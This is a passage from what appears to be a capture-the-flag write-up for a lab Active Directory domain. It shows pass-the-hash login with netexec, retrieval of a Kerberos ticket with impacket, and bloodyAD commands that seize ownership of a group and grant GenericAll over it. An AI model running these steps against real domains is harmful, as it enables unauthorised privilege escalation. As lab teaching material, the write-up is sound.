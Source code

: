 That’s because it’s a service account. It will work using Kerberos by adding `-k`:

```

oxdf@hacky$ netexec smb dc01.haze.htb -u Haze-IT-Backup -H 4de830d1d58c14e241aff55f82ecdba1 -k
SMB         dc01.haze.htb   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         dc01.haze.htb   445    DC01             [+] haze.htb\Haze-IT-Backup:4de830d1d58c14e241aff55f82ecdba1

```

## Shell as edward.martin

### Enumeration

Haze-IT-Backups has `WriteOwner` over the Support Services group:

![image-20250624124133312](/img/image-20250624124133312.png)

From my current visibility, Support\_Services has no members and no outbound control.

### Control Support\_Services

With nowhere else to look, I’ll try adding a user I control to the Support\_Services group. I’ll get a TGT for the service account:

```

oxdf@hacky$ getTGT.py haze.htb/Haze-IT-Backup\$ -hashes :4de830d1d58c14e241aff55f82ecdba1
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies   

[*] Saving ticket in Haze-IT-Backup$.ccache 

```

I’ll use that with `bloodyAD` to set the owner of the group to be this account:

```

oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache bloodyAD --host dc01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -k set owner Support_Services 'Haze-IT-Backup$'
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES 

```

As owner, I’ll give the account `GenericAll` over the group:

```

oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache bloodyAD --host dc01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -k add genericAll Support_Services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ has now GenericAll on Support_Services

```
